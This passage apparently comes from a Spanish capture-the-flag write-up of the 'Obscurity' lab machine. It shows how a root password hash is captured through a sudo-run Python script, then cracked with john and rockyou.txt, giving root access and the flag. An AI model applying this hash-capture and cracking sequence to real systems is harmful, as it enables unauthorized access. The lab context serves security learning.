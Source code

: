 
> robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py

```console
Enter username: aaa
Enter password: bbb
Invalid user
```

de esta manera nos guardamos el hash del usuario root para descifrarlo

> echo "$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1" > content/hash

Por tanto desciframos el password root con john y el diccionario *rockyou.txt* lo que nos da la contraseña de root **mercedes**

> john -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt content/hash

```console
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2022-08-15 18:49) 8.333g/s 17066p/s 17066c/s 17066C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

con esta contraseña ingresamos como root y podemos ver la flag

> robert@obscure:~$ su
>
> Password: mercedes

```console
root@obscure:/home/robert# cat /root/root.txt
37e735b0bd02f6791202aee47a3c4914
```
## Estructura del directorio

```
Obscurity
├── content
│   ├── hashes
│   └── SuperSecureServer.py
├── exploits
├── Images
│   ├── image01.png
│   └── Obscurity.png
├── nmap
│   ├── allPorts
│   └── targeted
├── Readme.md
└── scripts
```




[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>